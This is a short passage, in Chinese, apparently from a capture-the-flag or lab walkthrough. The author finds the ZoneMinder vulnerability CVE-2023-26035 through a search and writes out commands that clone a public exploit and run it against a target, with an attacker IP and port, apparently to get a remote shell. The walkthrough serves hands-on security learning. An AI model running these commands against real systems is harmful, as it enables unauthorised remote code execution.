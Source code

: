 在谷歌搜索

```
zoneminder exploit
```

![image-20231224184029070](../图片/image-20231224184029070.png)

搜索到**[CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)**漏洞

网上现成的exp

```
git clone https://github.com/rvizx/CVE-2023-26035.git
cd CVE-2023-26035
python exploit.py -t "http://127.0.0.1:8080/index.php" -ip 10.10.16.16 -p 5566
```
